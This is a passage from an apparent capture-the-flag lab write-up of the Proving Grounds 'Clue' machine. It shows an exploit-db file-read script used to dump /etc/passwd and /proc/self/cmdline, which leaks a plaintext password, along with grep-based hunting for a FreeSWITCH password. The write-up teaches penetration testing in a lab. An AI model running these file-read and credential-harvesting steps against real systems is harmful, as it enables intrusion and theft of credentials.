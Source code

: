 ```bash
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:106:113::/nonexistent:/usr/sbin/nologin
cassandra:x:107:114:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin
cassie:x:1000:1000::/home/cassie:/bin/bash
freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false
anthony:x:1001:1001::/home/anthony:/bin/bash
```
{: .nolineno}

Lets Follow the exploit and it said to access this file to get some creds 🔻

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Clue]
└─$ python3 49362.py 192.168.246.240 /proc/self/cmdline 

/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330
```
{: .nolineno}

From port scan I also noticed the `FreeSwitch` port open and I recon online and found this exploit 🔻
[FreeSWITCH 1.10.1 - Command Execution](https://www.exploit-db.com/exploits/47799)

In order to use this exploit I need to have a correct password of this FreeSwitch service and for that I enumerated further on the files that I got from SMB service and searched for password in that <mark style="background: #FFB86CA6;">freeswitch</mark> directory and so this hint file like this 🔻

```bash
grep -R password .
```
{: .nolineno}

I got this file and this content like this 🔻

```bash
./etc/freeswitch/autoload_configs/event_socket.conf.xml:    <param name="password" value="ClueCon"/>
```
{: .nolineno}

I knew that the default password is `ClueCon` as it is also mentioned in the exploit too so I need to read this file from the machine in order to get the password of <mark style="background: #FFB86CA6;">freeswitch</mark> service.

I now used the *Read file exploit from cassandra web* and got this content along with the password 🔻
